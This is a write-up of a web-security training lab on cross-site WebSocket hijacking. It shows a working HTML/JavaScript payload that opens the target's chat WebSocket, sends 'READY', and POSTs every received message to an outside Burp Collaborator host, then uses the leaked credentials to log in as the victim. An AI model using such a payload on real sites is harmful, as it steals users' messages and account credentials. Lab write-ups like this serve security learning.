


<div align='center'>

# **Web Socket**

</div>

## **Lab:** Cross-site WebSocket hijacking

**Goal:** Use the exploit server to host an HTML/JavaScript payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this gain access to their account.

**Solution:**

1.  Experiencing the live chat function then examing the request. We see that the server use Web Socket to handle the live chat's data. Notice that client will send the "READY" message to the server to let the server know that the client is ready for the connection



2.  We will make an html payload like below:

```html
<script>
    var ws = new WebSocket('wss://0ae700610398de55c1b2f44a00d60069.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://2vyc5cworf5ofjatd6k1ngdk1b71vq.oastify.com', {method: 'POST', body: event.data});
    };
</script>
```

This payload will open the server's web socket, then send the "READY" message to the server. When this web socket receives data, a POST request to the Burp Collaborator Client will be sent with the request body containing that web socket data. That request will be record by Burp Collaborator

3.  Deliver that payload page to the victim, we get the victim's username as carlos and his password. Log in as carlos to solve the lab

